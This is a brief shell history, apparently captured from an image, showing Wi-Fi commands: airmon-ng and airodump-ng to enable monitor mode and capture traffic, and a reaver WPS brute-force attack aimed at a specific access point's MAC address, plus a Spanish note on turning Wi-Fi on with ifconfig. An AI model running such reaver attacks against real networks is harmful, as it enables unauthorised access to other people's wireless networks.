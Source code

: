 2002  iwconfig
 2003  airmon-ng
 2004  sudo airmon-ng start wlp3s0
 2007  sudo airodump-ng wlp3s0mon
 2008  reaver –i wlp3s0mon –b 1C:AB:C0:46:D1:E8 -c 1 -vv


#activar wifi linux

ifconfig wlan0 up
ifconfig wlan0 down
